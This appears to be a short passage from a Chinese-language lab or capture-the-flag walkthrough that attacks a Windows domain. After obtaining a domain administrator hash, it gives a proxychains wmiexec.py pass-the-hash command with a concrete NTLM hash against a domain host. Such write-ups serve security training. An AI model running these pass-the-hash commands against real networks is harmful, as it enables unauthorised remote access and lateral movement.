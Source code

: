 [![](assets/1705540441-8761ef968e82bf4e8498fafc5718032e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174948-96711fd0-b454-1.png)

### 攻击域用户二

有了域管 hash，同上 PTH 即可

```plain
proxychains wmiexec.py -hashes :4889f6553239ace1f7c47fa2c619c252 xiaorang.lab/administrator@172.22.4.19 -codec gbk
```

[![](assets/1705540441-f74d85ceb17f5ac809fdb23941e31cb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174955-9a500f12-b454-1.png)
